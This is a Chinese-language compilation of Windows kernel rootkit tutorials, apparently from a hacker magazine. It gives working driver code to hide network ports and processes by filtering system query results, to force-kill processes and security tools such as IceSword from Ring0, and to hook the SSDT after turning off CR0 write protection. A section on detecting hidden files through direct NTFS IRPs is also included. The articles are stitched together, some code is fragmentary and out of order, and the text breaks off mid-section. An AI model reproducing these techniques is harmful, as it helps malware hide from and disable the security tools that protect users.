可以看到，其中包含很多信息，具体有连接状态、本地地址、远程地址、本地端口、远程端口。我们就是通过判断不同的信息来实现不同的隐藏的，这里就不详细说明了，应该说很清楚很明白了，如果大家还有疑问，就请到黑防论坛与我交流吧。

TCPAddrExEntry的结构也十分类似，不过多一个PID，表示进程的ID，通过这个值，我们可以加一项隐藏指定PID的所有链接，这个就留给大家自己试试吧。

我们循环表的所有项，如果找到以后，直接将后面的数据拷贝过来覆盖到当前的位置，就把需要隐藏的项给覆盖掉了，然后修正表的大小后return，这样返回的就是修改后的数据了，Ring3下的程序自然就查不到了，这里我还写了一个简单的控制程序，来实现控制这个驱动隐藏端口，具体的实现大家自行看源代码吧。

OK，本文就到这里了，RootKit是一门很有意思的学问，我会继续研究下去，有了心得还会继续与大家共同分享的。



我们来演示一下ZwTerminateProcess结束进程的方法，因为结束进程前先要打开进程的句柄，所以需要用到ZwOpenProcess函数，其结构定义如下：

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwOpenProcess(
  OUT PHANDLE ProcessHandle,
  IN ACCESS_MASK DesiredAccess,
  IN POBJECT_ATTRIBUTES ObjectAttributes,
  IN PCLIENT_ID ClientId OPTIONAL
);
```

ZwOpenProcess中的第一个参数是进程句柄，第二个参数为请求的权限，因为要结束进程，我们就用最大的PROCESS_ALL_ACCESS权限，第三个为对象属性，一般创建一个新的就可以了，最后一个就是进程ID，我们可以通过Ring3传入一个PID。

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwTerminateProcess(
  IN HANDLE ProcessHandle OPTIONAL,
  IN NTSTATUS ExitStatus
);
```

而ZwTerminateProcess的使用方法就更简单了，第一个参数为进程句柄，就是ZwOpenProcess打开的；第二个参数为进程退出代码，正常的退出代码为0。如果我们需要结束PID为1024的进程，其完整的代码如下：

```c
NTSTATUS status=STATUS_SUCCESS;
OBJECT_ATTRIBUTES ObjectAttributes;
HANDLE hProcess=NULL;
CLIENT_ID ClientId;
ULONG dwPid=1024; // PID
InitializeObjectAttributes(&ObjectAttributes,0,0,0,0);
ClientId.UniqueProcess = (HANDLE)dwPid;
ClientId.UniqueThread = 0;
status=ZwOpenProcess(&hProcess,PROCESS_ALL_ACCESS,&ObjectAttributes,&ClientId);
ZwTerminateProcess(hProcess,0);
ZwClose(hProcess);
DbgPrint("%x",status);
```

- PspTerminateProcess没有被直接导出，所以需要安装Windows系统符号才可以正常反编译。目前在微软官方网站可以下载到自己当前操作系统的符号Symbol文件，目前有Windows 2000/XP/2003/Vista/2008的符号文件。

在IceSword中，结束进程使用的并不是上面讲到的ZwTerminateProcess，而是Psp系列的API，主要有PspTerminateProcess和PspTerminateThreadByPointer两种方法，但是Psp系列的API和Zw相比有个棘手的问题，就是没有被ntosxxx直接导出，所以仅仅知道了结构还是无法正常编译的，所以我们要自己查找它的内存地址，来执行PspTerminateProcess或PspTerminateThreadByPointer结束进程。PspTerminateProcess的原型如下：

```c
NTSYSAPI
NTSTATUS
NTAPI
PspTerminateProcess(
  IN PEPROCESS Eprocess,
  IN NTSTATUS ExitStatus
);
```

PspTerminateProcess第一个参数为PEPROCESS Eprocess，我们可以通过PsLookupProcessByProcessId这个函数来获取一个进程的PEPROCESS结构，而PspTerminateProcess第二个参数ExitStatus就是进程的退出代码，一般成功为0即可。

```c
NTSYSAPI
NTSTATUS
NTAPI
PsLookupProcessByProcessId(
  IN ULONG ulProcid,
  OUT PEPROCESS * pEprocess
);
```

既然PspTerminateProcess没有在ntosxxx.lib中导出，我们就自己搜索获得地址来实现吧。在WinDbg中通过命令反编译PspTerminateProcess，可以看到在当前Windows Server 2003 Service Pack 1（3790）操作系统上的地址为0x80943690。

```c
lkd> u PspTerminateProcess
nt!PspTerminateProcess:
80943690 8bff mov edi,edi
80943692 55 push ebp
80943693 8bec mov ebp,esp
80943695 56 push esi
80943696 8b7508 mov esi,dword ptr [ebp+8]
80943699 57 push edi
8094369a 8dbe40020000 lea edi,[esi+240h]
809436a0 f6470120 test byte ptr [edi+1],20h
```

我们通过WinDbg获取不同系统的内存地址，使用硬编码的方式可以获取Windows 2000、XP、2003、Vista、2008操作系统上的内存地址，但这个工程量是巨大的，比如Windows 2000加上4个SP补丁包为5个版本，XP最近出了SP3也有4个版本，2003最新的为SP2共3个版本，Vista也出了SP1两个版本，加上Windows 2008一共是15个版本，所以我们还是动态搜索比较现实。一般常见的是在内存中搜索或解析ntosxxx文件结构，这两种方法都是通过特征暴力查找的，如果采用内存搜索的方法会很容易产生BSOD蓝屏现象，并且地址被Patch过结果就不准确了，内存暴力搜索没有什么高难度，和过去我们搜索PsCidTable一样，内核地址都是从0x80000000开始，到0x90000000结束的，配合上次提到的Try和MmIsAddressValid来最大限度地阻止BSOD发生。PspTerminateProcess的特征值我们可以通过WinDbg的dd命令来得到，具体如下：

```c
lkd> dd PspTerminateProcess
80943690 8b55ff8b 758b56ec be8d5708 00000240
809436a0 200147f6 868d1274 00000164 62685650
809436b0 e8809436 ffffeefc f058086a 006a0709
809436c0 0bd4e856 f88b0000 2074ff85 75ff006a
...
809436d0 fde8570c 57ffffff 0bbce856 f88b0000
809436e0 e875ff85 00cc8639 06740000 e9bae856
809436f0 335ffffe c25d5ec0 cccc0008 cccccccc
80943700 8b55ff8b 5e65351e 24358b64 57000001
```

直接在内存中搜索0x8b55ff8b、0x758b56ec、0xbe8d5708、0x00000240这4段就可以了，但从稳定性和各个方面考虑，还是推荐解析ntosxxx.exe文件比较稳定安全，方法可以参考2008年第5期上我写的《Ring3下获取原始的SSDT》一文，首先通过ZwQuerySystemInformation配合SystemModuleInformation参数枚举出系统的模块地址，然后循环搜索和上述的4个特征地址进行比对，比较简单，这里就不再赘述了。实现自己的myPspTerminateProcess函数，结束进程的演示代码如下。

```c
ULONG ProcessId=1024; // PID
PEPROCESS Eprocess = NULL;
NTSTATUS Status = PsLookupProcessByProcessId(ProcessId, &Eprocess);
if(!NT_SUCCESS(Status))
{
    DbgPrint("Failed to lookup process 0x%x, status %8.8x\n", ProcessId, Status);
    return Status;
}
DbgPrint("Lookup of process 0x%x, PEPROCESS at %8.8x\n", ProcessId, Eprocess);
Status = myPspTerminateProcess(Eprocess, STATUS_SUCCESS);
if(!NT_SUCCESS(Status))
{
    DbgPrint("Failed to ps. 0x%x, status %8.8x\n", ProcessId, Status);
    return Status;
}
DbgPrint("Process 0x%x terminated\n", ProcessId);
return STATUS_SUCCESS;
```

结束进程除了PspTerminateProcess外，还有更好的PspTerminateThreadByPointer。通过命令层层反编译PspTerminateProcess，我们可以看到结束进程依次通过执行PspCatchCriticalBreak、PsGetNextProcessThread、ObClearProcessHandleTable、NtTerminateThread、PsTerminateSystemThread、PspShutdownThread、PsShutdownSystem来完成，其实IceSword作者jif过去也说过进程结束可以通过结束进程中的所有线程来达到；如果让进程暂停，可以通过挂起进程中的线程。

即使是比较底层的PspTerminateProcess或PspTerminateThreadByPointer结束进程仍然存在很多问题，比如KV2008的inline Hook、DKOM上做手脚，仍然无法结束掉，但对于市面上的病毒来说是够用了，结束IceSword也是没有问题的。通往Windows内核深处还很远的路要走，由于公开的资料不是很多，所以自己模拟一些更底层的函数还是很困难的，唯一不错的参考资料就是ReactOS的开源代码有些参考价值，ReactOS很多的代码都是从过去被泄露的Windows NT4.0基础衍变过来的，还有就是过去泄露的部分Windows 2000源代码。本文就讲到这里了，以后再给大家介绍更强的方法来结束进程。

### 前置知识：VC

## 关键词：编程，驱动，DriverObject

## 直接调用NTFS文件驱动

#### 检测隐藏文件


如果不考虑直接读取扇区分析文件系统来检测隐藏文件的话，那么直接向建立在卷设备驱动上的文件系统驱动发送IRP是在文件系统上最底层的检测方法了。IceSword（不考虑FileReg这个插件）就是直接向最底层的文件驱动发送IRP来检测隐藏文件的，这种检测方法使我们能够检测出SSDT HOOK、文件过滤驱动所隐藏的文件。在以前的文章中，我们实现了通过读取扇区直接分析NTFS文件系统来检测隐藏文件的方法，这次我们直接向NTFS发送IRP来检测隐藏文件，比上一次简单多了，因为我们不需要了解文件系统的格式，NTFS都帮我们实现了。把这两种方法集合在一起，再加上去除一些ROOTKIT HOOK（如IofCompleteRequest、ntfs dispatch HOOK）就能够实现一个完整的检测文件驱动了。

那么，我们应该如何调用NTFS文件驱动呢？首先我们必须获得NTFS的Driver Object。

```c
DbgPrint("Get Ntfs Driver object\n");
DeviceObject = NtfsObject->DeviceObject;
g_NtfsDrvObj = NtfsObject;
NtfsDirCtlDispatch = (ULONG)g_NtfsDrvObj->MajorFunction[IRP_MJ_DIRECTORY_CONTROL];
return;
}
```

NTFS文件系统驱动的OBJECT名称是“\\FileSystem\\Ntfs”，我们调用ObReferenceObjectByName这个函数来获取它的Driver Object，接着继续获取IRP_MJ_DIRECTORY_CONTROL的Dispatch函数，它是我们获取文件信息的NTFS函数地址。这样我们就完成了我们驱动的初始化操作返回，等待我们的用户层函数发送IOCTL_RD_SHOW_DIR控制消息来显示文件目录中的所有文件。

```c
VOID GetNtfsDriver()
{
    NTSTATUS Status;
    UNICODE_STRING NtfsName;
    PDRIVER_OBJECT NtfsObject;
    PDEVICE_OBJECT DeviceObject;
    WCHAR *NameTmp;

    RtlInitUnicodeString(&NtfsName, L"\\FileSystem\\Ntfs");
    Status = ObReferenceObjectByName(
        &NtfsName,
        OBJ_CASE_INSENSITIVE,
        0,
        0,
        *IoDriverObjectType,
        KernelMode,
        NULL,
        &NtfsObject
    );
    if (Status < STATUS_SUCCESS) return;
}
```

```c
CtlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
InSize  = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
OutSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;

switch (CtlCode) {
case IOCTL_RD_SHOW_DIR:
{
    DbgPrint("IoCtl: Get dir information: %x: %x\n", InSize, OutSize);
    // 我们必须检测 InSize 的长度
    if (InSize < 6 || InSize > 256) {
        DbgPrint("Invalid Input buffer size: %x\n", InSize);
        Status = STATUS_INFO_LENGTH_MISMATCH;
        break;
    }
}
```

#### 编程解析

```c
DataPtr = (ULONG *)Irp->AssociatedIrp.SystemBuffer;
DirNameLength = *DataPtr;
// 4 for DirNameLength, 1 for null.
// 我们必须检测 DirNameLength 的长度
if (DirNameLength < 6 || InSize != DirNameLength + 5) {
    DbgPrint("Invalid name buffer size: %x, %x\n", InSize, DirNameLength);
    Status = STATUS_INFO_LENGTH_MISMATCH;
    break;
}
DataPtr++;
DirPtr = (CHAR *)DataPtr;
DirPtr[DirNameLength] = (CHAR)NULL;
strcpy(DirName, DirPtr);

// 检测是否获得 NTFS driver object.
if (g_NtfsDrvObj) {
    Irp->IoStatus.Information =
        GetDirInformation(DirName, DirNameLength, Irp->AssociatedIrp.SystemBuffer, OutSize);
    if (Irp->IoStatus.Information > OutSize) {
        Irp->IoStatus.Information = 4;
    }
}
break;
default:
    Status = STATUS_INVALID_DEVICE_REQUEST;
    break;
```

用户层程序发送控制消息，输入数据的开始4字节是检测的文件目录的字符长度，接着是目录名称。在检测了数据的合理性后，再调用驱动的主核心函数GetDirInformation来获取数据。值得注意的是，为了安全问题，我们这里必须检查InSize输入长度是否大于256，文件目录名长度是否不等于同样是用户层传送过来的DirNameLength的长度+5（4个字节的目录长度和1个字节的NULL）。这样，DirNameLength的长度就不会超过251，之后我们调用mbstowcs(，DirNameLength)函数就不会溢出了。

我们接着看GetDirInformation函数的代码，代码比较长，我们分段来看。

```c
ULONG GetDirInformation(CHAR *DirName, ULONG NameLength, CHAR *Buffer, ULONG BufferLength)
{
    HANDLE DirHandle;
    KEVENT WaitEvent;
```

```c
    PIRP QueryIrpPtr = NULL;
    NTSTATUS QueryStatus, WaitStatus;
    ULONG ReadLength, *RtnLengthPtr = (ULONG *)Buffer;
    CHAR *RtnBuffer = Buffer + 4;
    FILE_OBJECT *FileObjectPtr;
    NTSTATUS Status;
    IO_STATUS_BLOCK QueryIrpIoStatusBlock;
    PIO_STACK_LOCATION IrpSp;
    MDL *MdlPtr = NULL;
    UCHAR *ReadBuffer = NULL;
    UINT Loop = 10;
    WCHAR DirNameW[256];
    DEVICE_OBJECT *DeviceObject;
    BOOLEAN FirstScan = TRUE;
    CHAR Flag;

    *RtnLengthPtr = 4;
    DirNameW[0] = L'\0';
    ReadLength = mbstowcs(DirNameW, DirName, NameLength);
    if (ReadLength != NameLength) {
        DbgPrint("%s\n", DirName);
        return 0;
    }
    DirNameW[ReadLength] = L'\0';
    DbgPrint("Convert Directory name: %ws\n", DirNameW);
    DirHandle = CreateFile(DirNameW, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN);
    if (DirHandle == NULL) return 0;
    DbgPrint("Create Directory\n");
    ReadLength = 1024;
    Status = ObReferenceObjectByHandle(
        DirHandle, 0, *IoFileObjectType, KernelMode, (VOID *)&FileObjectPtr, NULL
    );
    // Dereference FileHandle.
    CloseFile(DirHandle);
    if (g_NtfsDevObj == NULL &&
        (Status != STATUS_SUCCESS || FileObjectPtr->Vpb == NULL || FileObjectPtr->Vpb->DeviceObject == NULL)) {
        if (Status == STATUS_SUCCESS) {
            ObDereferenceObject(FileObjectPtr);
        }
        return 0;
    }
}
```

这段代码调用mbstowcs函数将文件名转换成宽字符，调用CreateFile打开文件，接着调用ObReferenceObjectByHandle转换Handle to File Object。如果之前的调用中没有获得NTFS的Device Object，并且这次调用ObReferenceObjectByHandle获取File Object失败的话，我们就没有方法再获取文件目录数据了，则直接失败返回。返回值是0，代表调用失败；返回值是4，代表用户传送过来的输出缓冲区太小了。

```c
ULONG GetDirInformation(CHAR *DirName, ULONG NameLength, CHAR *Buffer, ULONG BufferLength)
{
    DbgPrint("Got File Object\n");
    if (g_NtfsDevObj == NULL) {
        if (!IsValidNtfsDevice(FileObjectPtr->Vpb->DeviceObject)) {
            ObDereferenceObject(FileObjectPtr);
            return 0;
        }
    }

    DeviceObject = g_NtfsDevObj;
    DbgPrint("Got ntfs device Object\n");
    InitializeAndResetEvent(&WaitEvent, FALSE);

    ReadBuffer = AllocateNonPagedPool(ReadLength);
    if (ReadBuffer == 0) {
        ObDereferenceObject(FileObjectPtr);
        return 0;
    }

    MdlPtr = AllocateMdl(ReadBuffer, ReadLength);
    if (MdlPtr == NULL) {
        FreePool(ReadBuffer);
        ObDereferenceObject(FileObjectPtr);
        return 0;
    }
    ......
}
```

File Object上的VPB是文件系统所挂钩的数据结构，我们直接使用File Object的VPB上的Device Object作为我们检测是否为NTFS驱动的Device Object。顺便说一下，本文没有描述如果文件系统是使用FAT格式的FastFat文件系统驱动，但实现是一样的；我们这里还可以同样调用IoGetBaseFileSystemDeviceObject函数来获取底层文件系统Device Object，但可能返回的不是NTFS的Device Object，如果文件系统驱动被挂钩了的话。所以，如果出现这种情况，我们直接返回错误，让用户知道文件系统被挂钩了。当然，如果我们能够直接确认哪一个是我们需要的NTFS或者FastFat的调用Device Object，就不用这么麻烦了。在我测试的Windows 2000 SP2和Windows XP SP2上，NTFS的第一个没有Device Object Name的Device Object就是我们需要的发送IRP的目标。Windows 2003 SP1上则是第3个。在获得了NTFS的Device Object后，我们接着就是建立一个询问IRP了，这和上期的《调用Disk驱动读取扇区的驱动实现》基本一样，只是调用的参数不一样。我们来看一下实现代码。

```c
IRPSp = IoGetNextIrpStackLocation(Irp);
IRPSp->MajorFunction = IRP_MJ_DIRECTORY_CONTROL;
IRPSp->MinorFunction = IRP_MN_QUERY_DIRECTORY;
IRPSp->DeviceObject = DevObj;
IRPSp->FileObject = FileObj;

// MajorFunction 是 IRP_MJ_DIRECTORY_CONTROL,
// MinorFunction 是 IRP_MN_QUERY_DIRECTORY;
// FileObject 这个参数必须加上，在上次调用 Disk 驱动中这是不需要的（因为根本就没有文件）

IrpSp->Parameters.Others.Argument1 = (PVOID)ReadLength;
IrpSp->Parameters.Others.Argument2 = 0; // File Name
IrpSp->Parameters.Others.Argument3 = (PVOID)FileFullDirectoryInformation; // FileInformationClass
IrpSp->Parameters.Others.Argument4 = 0; // File index.
IrpSp->Flags = SL_RESTART_SCAN or 0;
```

其中，Argument1是IRP输出缓冲区的大小，Argument2是写入指定文件名，这可以用于检查文件是否存在，Argument3是我们选择所接收的数据结构的格式，这里选择FileFullDirectoryInformation。Flag是SL_RESTART_SCAN的话，将会重新开始从第一个文件开始传送数据结构，如果是0的话，就会在上次的基础上继续传送。好了，建立了IRP后，我们就要发送IRP请求了，继续看以下代码。

```c
ULONG GetDirInformation(CHAR *DirName, ULONG NameLength, CHAR *Buffer, ULONG BufferLength)
{
    ............................
DO_CREATE_IRP:
    // 设置起始标记
    Flag = FirstScan ? SL_RESTART_SCAN : 0;

    // 建立 IRP
    QueryIrpPtr = CreateDirCtrlIrp(
        DeviceObject,
        FileObjectPtr,
        &WaitEvent,
        &QueryIrpIoStatusBlock,
        MdlPtr,
        ReadBuffer,
        ReadLength,
        Flag
    );

    if (QueryIrpPtr == NULL) {
        IoFreeMdl(MdlPtr);
        FreePool(ReadBuffer);
        ObDereferenceObject(FileObjectPtr);
        return 0;
    }

    FirstScan = FALSE;
    DbgPrint("Created Irp\n");

    // 调用驱动的 Dispatch 函数
    QueryStatus = MyCallDriver(DeviceObject, QueryIrpPtr, (PDRIVER_DISPATCH)NtfsDirCtlDispatch);
    if (QueryStatus == STATUS_PENDING) {
        DbgPrint("Io Pending....\n");
        WAIT_FOR_OBJECT(&WaitEvent, NULL);
    } else if (QueryStatus == STATUS_SUCCESS) {
        DbgPrint("Io Succeed.\n");
    } else {
        if (QueryStatus == STATUS_NO_MORE_FILES) {
            DbgPrint("No more file\n");
            if (*RtnLengthPtr + 1 >= BufferLength) {
                // overflow.
            } else {
                // Append last NULL char.
                Buffer[*RtnLengthPtr] = (CHAR)NULL;
            }
            *RtnLengthPtr += 1;
        } else {
            DbgPrint("Io Failed: %x\n", QueryStatus);
        }
        // 数据传送结束
        goto GET_DIR_INFO_END;
    }

    DbgPrint("Read : %x\n", QueryIrpPtr->IoStatus.Information);

    // 将数据写入输出缓冲区
    CopyFileName(ReadBuffer, QueryIrpPtr->IoStatus.Information, RtnLengthPtr, Buffer, BufferLength);
    IoFreeIrp(QueryIrpPtr);

    // 继续获取数据
    goto DO_CREATE_IRP;

GET_DIR_INFO_END:
    DbgPrint("Call Driver Finished: return length : %x\n", *RtnLengthPtr);

    // 释放资源
    IoFreeIrp(QueryIrpPtr);
    IoFreeMdl(MdlPtr);
    FreePool(ReadBuffer);
    ObDereferenceObject(FileObjectPtr);
    return *RtnLengthPtr;
}
```

在这段代码中，首先设置Flag，接着建立IRP，调用Dispatch函数测试返回状态，如果是STATUS_SUCCESS或者STATUS_PENDING的话，先将数据写入输出缓冲区，继续建立IRP再获取数据；如果是STATUS_NO_MORE_FILES的话就调用完成了，之后更新数据长度，返回。最后我们再来看一看是如何处理返回数据的。

```c
BOOLEAN CopyFileName(UCHAR *ReadBuffer, ULONG ReadLength, ULONG *ReadIndex, UCHAR *RtnBuffer, ULONG MaxBufLen)
{
    // 返回的数据是一个 FULL_DIRECTORY 数据结构的集合
    FILE_FULL_DIRECTORY_INFORMATION *FileDirInfoPtr = (FILE_FULL_DIRECTORY_INFORMATION *)ReadBuffer;
    CHAR FileName[256];
    CHAR *LongFileNamePtr;
    BOOLEAN Result = TRUE, Ending = FALSE;
    ULONG FileNameLength;

    while (TRUE) {
        // 如果 NextEntryOffset 等于 0，这就是最后一个结构了
        if (FileDirInfoPtr->NextEntryOffset == 0) {
            Ending = TRUE;
        }

        // FileDirInfoPtr->FileNameLength is 1 byte unit.
        FileNameLength = FileDirInfoPtr->FileNameLength / 2;

        if (Result == FALSE) {
        } else if (FileNameLength + *ReadIndex + 1 >= MaxBufLen) {
            // 输出缓冲区容量太小了
            Result = FALSE;
        } else {
            // 转换宽字符文件名，写入输出缓冲区，更新已写入长度
            if (FileNameLength + 1 < 256) {
                wcstombs(FileName, FileDirInfoPtr->FileName, FileNameLength);
                FileName[FileNameLength] = (CHAR)NULL;
                strcpy(&RtnBuffer[*ReadIndex], FileName);
                DbgPrint("%s\n", FileName);
            } else {
                LongFileNamePtr = AllocatePagedPool(FileNameLength + 1);
                if (LongFileNamePtr == NULL) {
                    wcstombs(FileName, FileDirInfoPtr->FileName, 255);
                    FileName[255] = (CHAR)NULL;
                    strcpy(&RtnBuffer[*ReadIndex], FileName);
                    DbgPrint("%s\n", FileName);
                } else {
                    wcstombs(LongFileNamePtr, FileDirInfoPtr->FileName, FileNameLength);
                }
            }
        }
    }
}
```

```c
LongFileNamePtr[FileNameLength] = (CHAR)NULL;
strcpy(&RtnBuffer[*ReadIndex], LongFileNamePtr);
FreePool(LongFileNamePtr);
DbgPrint("%s\n", FileName);

// update need length. 1 for NULL.
*ReadIndex += FileNameLength + 1;
if (Ending) break;
// 更新结构指向下一个数据结构
FileDirInfoPtr = (PFILE_FULL_DIRECTORY_INFORMATION)((ULONG)FileDirInfoPtr + FileDirInfoPtr->NextEntryOffset);

return TRUE;
```

```c
// Information Class 2
ULONG NextEntryOffset;
ULONG Unknown;
LARGE_INTEGER CreationTime;
LARGE_INTEGER LastAccessTime;
LARGE_INTEGER LastWriteTime;
LARGE_INTEGER ChangeTime;
LARGE_INTEGER EndOfFile;
LARGE_INTEGER AllocationSize;
ULONG FileAttributes;
ULONG FileNameLength;
ULONG EaInformationLength;
WCHAR FileName[1];

FILE_FULL_DIRECTORY_INFORMATION,
*PFILE_FULL_DIRECTORY_INFORMATION;
```

我们的调用参数是 FileFullDirectoryInformation，而 Argument3 = (PVOID)FileFullDirectoryInformation，所以返回的参数是一个 FILE_FULL_DIRECTORY_INFORMATION 结构的集合，结构的格式如下：

第一个 member 用来定位下一个结构的位置，最后一个 member 是文件的名称，正是我们需要的数据，将它写入输出缓冲区就可以了。

至此，我们就可以准确地避过 SSDT Hook 和文件过滤驱动来准确检测文件的存在了。以上代码在 Windows 2000 SP2、Windows XP SP2 和 Windows 2003 SP1 上测试通过。

```c
typedef struct _FILE_FULL_DIRECTORY_INFORMATION
{
```

**前置知识**：VC

**关键词**：编程、驱动、进程防杀

## Ring0中Hook SSDT 防止进程被结束

在以前发表的文章中，我们讲到了如何在 Ring0 中强行结束进程，但有了攻的方法，我们还要知道如何防守。进程防杀在反病毒、流氓软件中都有着广泛的应用。我们都知道在 Ring3 中结束进程使用 TerminateProcess() 这个 Win32 API，到了 Ring0 中，使用的则是 ZwTerminateProcess 来结束。但是 ZwTerminateProcess 并没有指明被结束进程的 PID，唯一的参数只有传入的进程句柄，那么我们如何防止进程被结束呢？

这里我们使用最简单的方法。还记得我们讲 Ring0 中强行结束进程提到的 Native API 方法中，首先需要使用 ZwOpenProcess 打开 PID 获取进程句柄，所以我们只要 Hook SSDT 中的 ZwOpenProcess 就可以实现了。常规的反病毒软件都采用这种方法阻止进程被结束，虽然强度不高，但是对 Hook SSDT 来说，确实是简单稳定、不易蓝屏的方法。

#### 编程解析

对于 Hook SSDT，以前我们大多仅说了过程，没有完整详细的工程代码。对于初学者来说可能还是会遇到些问题，因此本文就先写一个完整的 Hook ZwQuerySystemInformation 来隐藏进程的方法，最后将其修改成 Hook ZwOpenProcess 来实现最终的进程防杀。通过这个例子，大家就基本可以掌握 Hook SSDT 了，以后 Hook Native API 的相关操作就有据可循了。Hook SSDT 的完整实现步骤如下。

- 1) 声明SSDT结构

```c
typedef struct _ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;         // 系统服务数组表
    unsigned int *ServiceCounterTableBase;  // 数组使用计数
    unsigned int NumberOfServices;          // 服务数量
    unsigned char *ParamTableBase;          // 服务参数数目表
} ServiceDescriptorTableEntry,
*PServiceDescriptorTableEntry;
```

系统服务表入口地址 KeServiceDescriptorTable 已由 ntoskrnl.exe 导出，我们在这里通过 extern 直接引用就可以了，代码如下：

```c
extern PServiceDescriptorTableEntry KeServiceDescriptorTable;
```

- 2) 声明原始Native API结构

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwQuerySystemInformation(
    IN ULONG SystemInformationClass,     // 查询系统服务类型
    IN PVOID SystemInformation,          // 接收系统信息缓冲区
    IN ULONG SystemInformationLength,    // 接收信息缓冲区大小
    OUT PULONG ReturnLength);            // 实际接收到的大小
```

- 3) 声明Hook后的Native API

```c
NTSTATUS HookZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength);
```

- 4) 保存原始Native API地址（用于还原）

```c
typedef NTSTATUS (*REALZWQUERYSYSTEMINFORMATION)(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength);

REALZWQUERYSYSTEMINFORMATION RealZwQuerySystemInformation =
(REALZWQUERYSYSTEMINFORMATION)
(((PServiceDescriptorTableEntry)KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)((PUCHAR)ZwQuerySystemInformation + 1))]);
```

- 5) 禁用内存写保护（XP以后系统必须）

在 Windows XP 或以上系统不处理内存写保护会发生蓝屏，将重置 CR0 寄存器防止 PAGE_FAULT，代码如下：

```c
__asm {
    cli;
    mov eax, cr0;
    and eax, 0fffeffffh;
    mov cr0, eax;
}
```

- 6) 进行Hook，其实就是API地址替换

由于 SSDT 在每个系统中服务号可能不一样，我们可以通过 Native API 函数的地址 +1 来获取 SSDT 中的服务号，Hook 函数的地址如下：

```c
((PServiceDescriptorTableEntry)
KeServiceDescriptorTable)->ServiceTableBase[*((PULONG)
((PUCHAR)ZwQuerySystemInformation + 1))] =
HookZwQuerySystemInformation;
```

- 7) 启用内存写保护（对应禁用写保护）

在 Windows XP 或以上系统不处理内存写保护会发生蓝屏，将重置 CR0 寄存器防止 PAGE_FAULT，代码如下：

```c
__asm {
    mov eax, cr0;
    or eax, 0x10000;
    mov cr0, eax;
    sti;
}
```

- 8) 处理核心的Hook问题

这里是本文的关键点之一，学过数据结构的读者都知道，就是简单的链表移除工作，判断前驱后继操作。在隐藏进程、文件、模块上都是从这里入手的。

```c
NTSTATUS HookZwQuerySystemInformation(
    IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{
    NTSTATUS rc;
    struct _SYSTEM_PROCESSES *curr;
    // 保存上一个进程信息的指针
    struct _SYSTEM_PROCESSES *prev = NULL;

    rc = (RealZwQuerySystemInformation)(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);

    if (NT_SUCCESS(rc))
    {
        // 如果系统查询类型是 SystemProcessesAndThreadsInformation
        if (SystemInformationClass == 5)
        {
            curr = (struct _SYSTEM_PROCESSES *)SystemInformation;

            // 把第一个偏移量移到第一个system进程的信息首地址
            if (curr->NextEntryDelta)
                ((char *)curr += curr->NextEntryDelta);

            while (curr)
            {
                // 这里被隐藏的进程名为 ps_name，在驱动中为Unicode编码，所以使用RtlCompareUnicodeString函数对比字符串
                if (RtlCompareUnicodeString(&ps_name, &curr->ProcessName, 1) == 0)
                {
                    if (prev) // 找到要隐藏的进程
                    {
                        // 要删除的信息在表间
                        if (curr->NextEntryDelta)
                            prev->NextEntryDelta += curr->NextEntryDelta;
                        else
                            // 要删除的信息在表尾
                            prev->NextEntryDelta = 0;
                    }
                    else
                    {
                        // 要删除的信息在链表开头
                        if (curr->NextEntryDelta)
                            (char *)SystemInformation += curr->NextEntryDelta;
                        else
                            SystemInformation = NULL;
                    }
                }

                // 如果链下一个还有其他的进程信息，指针往后移
                if (curr->NextEntryDelta)
                    ((char *)curr += curr->NextEntryDelta);
                else
                {
                    curr = NULL;
                    break;
                }

                if (curr != NULL)
                {
                    // 把当前指针设置成前一个指针，当前指针后移
                    prev = curr;
                    if (curr->NextEntryDelta)
                        ((char *)curr += curr->NextEntryDelta);
                    else
                        curr = NULL;
                }
            }
        }
    }

    return rc;
}
```

- 9) 还原Hook，在Unload中处理

虽然这一步不是必须的，但如果程序退出时应该移除 Hook，否则在下一次加载时会发生 BSOD。毕竟 Hook Native API 也是影响系统性能的，用完了记住清理资源是好习惯。

在这之前我们仍然需要重复执行第5步禁用内存写保护操作：

```c
